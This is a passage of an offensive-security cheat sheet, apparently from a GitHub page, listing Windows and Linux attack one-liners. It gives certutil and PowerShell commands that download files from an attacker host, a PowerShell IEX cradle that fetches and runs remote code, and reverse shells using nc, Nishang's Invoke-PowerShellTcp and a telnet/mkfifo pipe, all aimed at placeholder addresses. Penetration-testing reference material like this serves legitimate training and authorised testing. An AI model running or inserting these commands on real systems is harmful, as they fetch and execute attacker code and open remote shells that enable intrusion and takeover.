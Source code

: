 ```
# download
certutil.exe -urlcache -split -f http://$HOST/$FILE $OUTPUT_FILE
```

- Powershell  

```
# download
(new-object net.webclient).downloadstring('http://$HOST/$FILE')
# or 
(new-object net.webclient).downloadfile('http://$HOST/$FILE', 'C:\$PATH\$FILE.exe')

# remote exec
echo IEX(New-Object Net.WebClient).DownloadString('http://$HOST/$FILE') | powershell -noprofile -
```

More [here](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters).  

- smbserver  

See [Hosting files on Kali](#hosting-files-on-kali)  

```
# download (kind of)
copy \\$IP\share\$FILE .

# exec
\\$IP\share\$FILE.exe
```

### Reverse shells from code execution on Windows

- Basic shell

```
\\10.10.10.10\share\nc.exe 10.10.10.10 1337 -e cmd.exe
```

- Powershell with [Nishang](https://github.com/samratashok/nishang)

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 1337
```

### Reverse shells from code execution on Linux

- nc  
```
nc 10.10.10.10 1337 -e /bin/bash
```

- telnet  
```
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 10.10.10.10 1337 > f
```

More [here](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) and [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).  
